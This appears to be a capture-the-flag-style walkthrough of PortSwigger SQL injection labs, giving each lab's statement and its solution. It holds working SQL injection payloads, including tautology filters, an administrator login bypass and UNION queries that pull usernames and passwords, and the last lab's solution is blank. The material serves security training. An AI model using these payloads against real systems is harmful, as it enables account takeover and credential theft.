 ```yaml
---
title: BurpSuite Labs - SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - burpsuite
  - sqli
---
```


# BurpSuite Labs - SQL injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Enuntiation

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Solution

Filter by one of the categories and, in the URL, instead of that categorry, after the "=" add:

```
' OR '1'='1
```



## SQL injection vulnerability allowing login bypass

### Enuntiation

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

### Solution

In the login page, add to username:

```
administrator'--
```

In password it doesn't matter what you write.


## SQL injection UNION attack, determining the number of columns returned by the query

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

### Solution

In the category filter, filter by 'Gift'. Then in the URL, substitute Gift by: 

```
' OR '1'='1' order by 1-- -
' OR '1'='1' order by 2-- -
' OR '1'='1' order by 3-- -
' OR '1'='1' order by 4-- -
```

When substituting by the last string, you will have an error. Bingo! Our last successful try was with 3 columns, so the table is holding 3 columns. Now we can launch our UNION attack:

```
' OR '1'='1' UNION SELECT all  null,null,null-- -
```

![Scrrenshot](../img/bupsuite-sqli3.png)


## SQL injection UNION attack, finding a column containing text

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

### Solution

Select category filter GIFT in the Home lab.

Substitute in the URL Gift by the following string to guess which column is being displayed: 

```
' UNION SELECT null,null,null-- -
```

The Lab environment is providing at the top of the screen a string of characters that you will need to get reflected in order to pass the lab. In my case it was the string 'FEvLOw'. I tried that string in different positions and I got success in the second position: 

```
'+UNION+SELECT+'FEvLOw',NULL,NULL--
'+UNION+SELECT+NULL,'FEvLOw',NULL--
```

![Scrrenshot](../img/bupsuite-sqli4.png)


## SQL injection UNION attack, retrieving data from other tables

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Solution

First, we test the number of columns and we obtain 2.

Later we run

```
' UNION SELECT ALL username,password FROM users-- -
```

![screenshot](../img/bupsuite-sqli5.png)


## SQL injection UNION attack, retrieving multiple values in a single column

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Solution

Like in the previous lab, first we test how many columns there are:

```
' UNION SELECT ALL NULL,NULL-- -
```

After that we check that (in my case) the column that is reflected is the second one, and we use that to retrieve the users and passwords:

```
' UNION SELECT NULL,username FROM users-- -
```

And we get:

```
carlos
administrator
wiener
```

And then, passwords:

```
' UNION SELECT NULL,password FROM users-- -
```

And we get:

![screenshot](../img/bupsuite-sqli6.png)

## SQL injection attack, querying the database type and version on Oracle

### Enuntiation

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

### Solution

